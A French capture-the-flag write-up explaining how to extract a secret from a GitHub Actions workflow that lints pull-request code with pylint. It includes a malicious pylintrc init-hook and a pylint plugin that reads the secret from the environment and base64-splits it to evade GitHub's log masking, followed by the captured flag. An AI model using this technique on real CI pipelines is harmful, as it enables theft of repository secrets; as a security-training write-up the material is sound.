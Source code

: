 # D-8 GitHub Workflows - Egypt

## Intro

Pour cette track, un repo Github read-only avec des [Github Actions workflows](https://docs.github.com/en/actions).
Chaque workflow constitue un des challenges de la track et ont tous comme but d'extraire le flag des Secrets du workflow et suit généralement l'ordre suivant:

1. Trouver comment activer le workflow
2. Trouver la faille dans le worflow
3. Executer l'exploit.

Note: Github cache les secrets et certaines transformations connue (ex. hex, base64) des logs par défault.

# Challenge

Le challenge de la track D8:

```yaml
name: Egypt
on:
  pull_request:
    types:
      - opened
      - synchronize
      - edited

jobs:
  cairo:
    if: contains(github.event.pull_request.title, '[Lint]')
    timeout-minutes: 5
    runs-on: ubuntu-latest
    permissions: 
      contents: read
      pull-requests: read
    env:
      FLAG: ${{ secrets.FLAG_EGYPT }}
      GH_TOKEN: ${{ secrets.GITHUB_TOKEN }}
    steps:
      - name: Checkout
        uses: actions/checkout@v4
      - name: Checkout
        uses: actions/checkout@v4
        with: 
          ref: ${{ github.event.pull_request.head.sha }}
          path: pr
      - name: Set up Python
        uses: actions/setup-python@v5
        with:
          python-version: 3.12
      - name: Install dependencies
        run: pip install pylint
      - name: Set config from upstream
        run: cp .pylintrc pr/.pylintrc
      - name: Lint with pylint
        id: lint
        continue-on-error: true
        working-directory: pr
        run: |
          pylint . 
```

### Trouver comment activer le workflow

Ce workflow est lancé sur les ayant '[Lint]' dans leur titre.

```yaml
on:
  pull_request:
    types:
      - opened # Lancé lorsqu'on crée une nouvelle PR
      - synchronize # Lancé lorsqu'un nouveau commit est ajouté a la PR
      - edited # Lancé lorsqu'un changement a la PR est effectué

...

 if: contains(github.event.pull_request.title, '[Lint]')
```

![pr](./assets/egypt-pr.png)


### Exploit
Ce workflow utilise PyLint pour analyser le code Python selon une liste de règles. On ne peut changer directement le fichier de configurations puisque le workflow copie celui provenant du repo original (en lecture seule).

```
cp .pylintrc pr/.pylintrc
```

Par contre, en lisant la [documentation de PyLint](https://pylint.pycqa.org/en/latest/user_guide/usage/run.html#command-line-options), on peut voir que cet outils supporte plusieurs fichier de configuration. De plus, PyLint support d'ajouter des extensions en Python.

`pylintrc`
```toml
[MASTER]

<!-- Permet d'importer des modules du fichier courant -->
init-hook='import sys; import os; print(os.listdir("..")); sys.path.append(".")'
load-plugins=my_plugin
```

`my_plugin.py`
```py
import os
import base64
import sys

def run_sh_code(command):
    result = os.popen(command).read()
    return result

def register(linter):
    flag = os.getenv('FLAG', 'none')
    b64_flag = base64.b64encode(flag.encode()).decode()
    # Split le flag en 2 pour éviter que Github ne le censure
    print("Flag: ", b64_flag[0:len(b64_flag)//2], " | ", b64_flag[(len(b64_flag)//2)-4:])

```

![issue](./assets/egypt-workflow.png)

---
## Flag:

`flag-egypt-9312131bb234`